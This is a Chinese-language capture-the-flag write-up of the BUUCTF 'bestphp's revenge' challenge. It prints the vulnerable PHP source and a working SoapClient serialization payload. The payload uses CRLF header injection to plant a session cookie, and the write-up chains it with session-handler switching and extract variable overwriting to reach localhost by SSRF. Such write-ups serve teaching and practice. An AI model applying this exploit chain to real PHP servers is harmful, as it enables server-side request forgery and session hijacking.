



原题戳这👉<a href="https://buuoj.cn/challenges#bestphp's%20revenge">BUUCTF bestphp's revenge</a>

```php
<?php
// index.php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
```

```php
// flag.php 扫描得到的
only localhost can get flag!
session_start(); 
echo 'only localhost can get flag!'; 
$flag = 'LCTF{*************************}'; if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){ 	          		$_SESSION['flag'] = $flag;
}
only localhost can get flag!
```

flag.php很明显指向了SSRF，127.0.0.1访问会把flag放到session中。

利用PHP的原生类`SoapClient`的`__call`方法进行SSRF

# Step1

PHP默认的session引擎为`php`

通过`session_start(array('serialize_handler'=>'php_serialize'))`
将session引擎修改为`serialize_handler`

同时传入payload：

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$a = new SoapClient(null, array('location'=>$target,
    'user_agent'=>"Taco\r\nCookie: PHPSESSID=123456\r\n",
    'uri'=>'test'));
echo '|'.urlencode(serialize($a));
```



服务器则会执行

`call_user_func(session_start, array('serialize_handler'=>'php_serialize'));`

`$_SESSION['name'] = $_GET['name'];`

按照`php_serialize`的处理方式将我们传入的name，序列化进session文件中

# Step2

通过`extract`变量覆盖，调用SoapClient类不存在的方法，触发`__call`，实现SSRF



`call_user_func('extract',array('b'=>'call_user_func'))`

将`$b`的值修改为`'call_user_func'`

`reset()` 将 `$_SESSION` 的内部指针倒回到第一个单元并返回第一个数组单元的值

后面`call_user_func($b, $a);`变成
`call_user_func('call_user_func', array('SoapClient','welcome_to_the_lctf2018'));`

# Step3

将PHPSESSID改为我们在SoapClient类里设置的123456，得到flag

